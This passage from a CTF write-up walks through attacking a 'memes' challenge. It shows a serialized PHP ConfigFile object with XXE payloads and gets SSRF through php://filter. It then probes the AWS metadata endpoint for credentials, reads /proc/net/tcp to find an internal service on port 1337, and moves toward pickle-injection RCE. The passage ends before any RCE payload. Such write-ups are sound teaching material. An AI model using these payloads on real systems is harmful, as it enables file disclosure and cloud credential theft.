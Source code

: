 ```
a:3:{i:0;O:10:"ConfigFile":1:{s:10:"config_raw";s:174:"<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://google.com" >]>
<payload>
    <toptext>&xxe;</topttext>
</payload>";}}
```
But it failed again. As I couldn't think of any other way to complete the challenge, I tried another technique to achieve SSRF with `php://filter/read=convert.base64-encode/resource=http://google.com`.
```
a:3:{i:0;O:10:"ConfigFile":1:{s:10:"config_raw";s:222:"<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=http://google.com" >]>
<payload>
    <toptext>&xxe;</toptext>
</payload>";}}
```
And now it worked ! The base64 result was printed on the memes.php page, now I have SSRF.
After that I tried the AWS metadata URL http://169.254.169.254/latest/user-data/ , because the server was on AWS to try to get any credentials, but it didn't work.

So it must be a internal IP. To find the IP:PORT I used the first local file read to read /proc/net/tcp 
```
sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                     
   0: 0100007F:0539 00000000:0000 0A 00000000:00000000 00:00000000 00000000  6488        0 2574392220 1 0000000000000000 100 0 0 10 0                
   1: 9E3610AC:A862 5579F868:0016 01 00000000:00000000 02:000A25B2 00000000  6488        0 2574386053 2 0000000000000000 20 4 29 10 -1
```
Decoding the hex `0100007F:0539` we get 127.0.0.1:1337, so this must be the next step.

## Pickle injection RCE
Using the SSRF to get the http://127.0.0.1:1337.
```
Meme Service - Internal Maintenance API - v0.1 (Alpha); API Documentation: Version 0.1 - Endpoints: /status - View maintenance status; /update-status Change maintenance status; Debug: The debug parameter allows debugging;
```
http://127.0.0.1:1337/status?debug=1
```
Maintenance mode: off | Debug: KGlhcHAKU3RhdHVzCnAxCihkcDIKUydtZXNzYWdlJwpwMwpTJ01haW50ZW5hbmNlIG1vZGU6IG9mZicKcDQKc1MnbWFpbnRlbmFuY2UnCnA1CkkwMApzYi4
```
Sending the `?debug=1` to /status it shows a Python's Pickle serialized data encoded in base64.
```
(iapp
Status
p1
(dp2
S'message'
p3
S'Maintenance mode: off'
p4
sS'maintenance'
p5
I00
s
```
http://127.0.0.1:1337/update-status?debug=1
```
Missing status parameter
```